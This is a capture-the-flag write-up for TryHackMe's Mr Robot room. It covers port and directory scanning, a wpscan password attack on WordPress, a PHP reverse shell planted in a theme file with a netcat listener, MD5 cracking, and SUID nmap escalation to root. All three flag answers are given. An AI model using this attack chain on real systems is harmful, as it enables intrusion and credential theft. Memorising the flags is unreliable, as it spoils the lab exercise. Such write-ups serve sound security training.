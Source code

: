 # TryHackMe [Mr Robot CTF](https://tryhackme.com/room/mrrobot)
### References
* Bloomberg, J. (2020, May 20). Unicornsec. Unicornsec. https://unicornsec.com/home/tryhackme-mr-robot-ctf
* DarkSec. (2020). TryHackMe Mr Robot Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/BQ4xeeNAbaw
* Dias, D. (2015, March 22). daviddias/node-dirbuster. GitHub. https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-small.txt
* Pinna, E., & Cardaci, A. (2018). nmap. GTFOBins. https://gtfobins.github.io/gtfobins/nmap/
* pentestmonkey. (2015, May 29). pentestmonkey/php-reverse-shell. GitHub. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
## Reconnaissance
* Scan the target with `nmap -sV -sC <MACHINE_IP>`:
  * Port `80` is open (probably for HTTP)
  * Port `443` is open (probably for HTTPS)
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 11:50 AEST
Nmap scan report for <MACHINE_IP>
Host is up (0.28s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.13 seconds
```
## What is key 1?
1. The website's `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
2. The website's `http://<MACHINE_IP>/key-1-of-3.txt` contains `073403c8a58a1f80d943455fb30724b9`
3. Download the website's password dictionary `http://<MACHINE_IP>/fsocity.dic` for later tasks.

**Answer**: `073403c8a58a1f80d943455fb30724b9`
## What is key 2?
1. Scan for valid HTTP endpoints with `gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-small.txt -t 100 -q`:
```
/blog                 (Status: 301) [Size: 233] [--> http://<MACHINE_IP>/blog/]
/images               (Status: 301) [Size: 235] [--> http://<MACHINE_IP>/images/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://<MACHINE_IP>/wp-login.php]
/video                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/video/]
/rss                  (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/0                    (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/0/]
/feed                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/wp-content           (Status: 301) [Size: 239] [--> http://<MACHINE_IP>/wp-content/]
/image                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/image/]
/atom                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/atom/]
/admin                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/admin/]
/audio                (Status: 301) [Size: 234] [--> http://<MACHINE_IP>/audio/]
/intro                (Status: 200) [Size: 516314]
/css                  (Status: 301) [Size: 232] [--> http://<MACHINE_IP>/css/]
/wp-login             (Status: 200) [Size: 2606]
/rss2                 (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://<MACHINE_IP>/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://<MACHINE_IP>/js/]
/Image                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://<MACHINE_IP>/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://<MACHINE_IP>/wp-admin/]
```
1. Go to `http://<MACHINE_IP>/YOUR_IP>//wp-login.php`.
2. We can guess a username of `elliot`, the website's prompt suggests that it is a real username.
3. Remove duplicates from `fsocity.dic` with `sort fsocity.dic | uniq > fsocity.txt`.
4. Scan for valid a password for username `elliot` with `wpscan --url http://10.10.155.227 -t 50 -U elliot -P $(pwd)/fsocity.txt`.
```bash
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - elliot / ER28-0652
All Found
Progress Time: 00:00:33 <=======================================> (9 / 22) 40.90%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
```
6. Login to the WordPress admin dashboard and go to the theme editor for the Archive PHP file.
7. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
8. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar), and the `$port` variable to `443`.
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
9. Replace the contents of WordPress' `archive.php` with the contents of `php-reverse-shell.php`.
10. Run `sudo nc -lvnp 443` and leave process running.
11. Go to `http://<MACHINE_IP>/wp-content/themes/twentyfifteen/archive.php` and make sure the reverse shell is connected.
12. In the reverse shell's initial working directory, you can find the 2nd key (with insufficient read permissions) and the `robot` user's password hash.
```bash
$ cd /home/robot
$ ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
13. Use [CrackStation](https://crackstation.net/) to recover the password (`abcdefghijklmnopqrstuvwxyz`) from it's MD5 hash.
![CrackStation](crackstation.jpg)
14. Switch to interactive shell with Python.
15. Login as the `robot` user.
16. Recover the 2nd key.
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

**Answer**: `822c73956184f694993bede3eb39f959`
## What is key 3?
1. Look for binaries with unusual permissions
```bash
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```
2. According to [GFTOBins' `nmap`](https://gtfobins.github.io/gtfobins/nmap/) page can spawn a non-interactive reverse shell.
```sh
robot@linux:~$ /usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
```
3. As the `root` user, extract the 3rd key.
```bash
# cd /root
\# ls
firstboot_done  key-3-of-3.txt
\# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
**Answer**: `04787ddef27c3dee1ee161b21670b4e4`